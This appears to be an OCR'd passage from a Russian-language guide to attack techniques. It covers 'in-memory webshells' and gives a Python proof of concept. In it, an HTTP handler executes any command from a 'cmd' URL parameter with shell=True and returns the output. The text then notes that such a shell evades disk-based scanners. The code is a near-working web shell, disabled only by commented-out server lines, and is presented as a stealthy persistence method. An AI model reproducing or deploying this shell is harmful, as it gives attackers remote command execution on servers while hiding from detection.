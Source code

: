 4.  **In-Memory Webshells (Веб-шеллы в Памяти)**
    Вместо того чтобы размещать файл веб-шелла на диске сервера, он может быть загружен и выполнен полностью в памяти процесса веб-сервера.
    *   **Пример: Простейший HTTP-сервер на Python, выполняющий команды (PoC)**
```python
        import http.server
        import socketserver
        import subprocess
        import urllib.parse

        PORT = 8088 # Выберите незанятый порт

        class InMemoryShellHandler(http.server.SimpleHTTPRequestHandler):
            def do_GET(self):
                # Разбираем URL для получения параметра 'cmd'
                parsed_path = urllib.parse.urlparse(self.path)
                query_params = urllib.parse.parse_qs(parsed_path.query)

                if 'cmd' in query_params:
                    command = query_params['cmd'][0]
                    self.send_response(200)
                    self.send_header("Content-type", "text/plain; charset=utf-8") # Для кириллицы в выводе
                    self.end_headers()
                    try:
                        # Выполняем команду. ВНИМАНИЕ: ОПАСНО!
                        # Для Windows может потребоваться 'cp866' или 'cp1251' в decode
                        output = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT)
                        self.wfile.write(output)
                    except subprocess.CalledProcessError as e:
                        error_message = f"Ошибка выполнения команды:\n{e.output.decode('utf-8', errors='replace')}"
                        self.wfile.write(error_message.encode('utf-8'))
                    except Exception as e:
                        self.wfile.write(str(e).encode('utf-8'))
                else:
                    self.send_response(200)
                    self.send_header("Content-type", "text/html; charset=utf-8")
                    self.end_headers()
                    self.wfile.write(b"<html><body><h1>In-Memory Python Shell</h1>")
                    self.wfile.write(b"<p>Use ?cmd=your_command (e.g., ?cmd=whoami or ?cmd=dir)</p></body></html>")

        # Запускаем сервер
        # with socketserver.TCPServer(("", PORT), InMemoryShellHandler) as httpd:
        # print(f"Сервер запущен на порту {PORT}. Для выполнения команды: http://localhost:{PORT}/?cmd=your_command")
        # httpd.serve_forever()
        print(f"Концепт In-Memory Shell. Для реального запуска раскомментируйте код выше.")
        print(f"Пример запроса: http://localhost:{PORT}/?cmd=whoami (для Windows) или ?cmd=ls (для Linux)")
```
        Такой шелл не оставляет файлов на диске, что затрудняет его обнаружение традиционными сканерами.
